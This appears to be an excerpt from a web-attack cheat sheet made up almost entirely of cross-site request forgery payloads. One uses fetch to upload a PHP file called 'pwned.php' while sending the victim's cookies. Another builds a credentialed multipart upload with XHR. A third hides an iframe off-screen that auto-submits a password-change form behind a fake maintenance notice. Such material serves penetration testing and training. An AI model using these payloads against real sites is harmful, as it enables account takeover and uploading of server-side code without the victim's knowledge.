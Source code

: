 ```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
    method: "post",
    body: myFormData,
    credentials: "include",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    mode: "no-cors"
});
```

#### multipart/form-data POST request v2

```javascript
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```

#### Form POST request from within an iframe

```markup
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
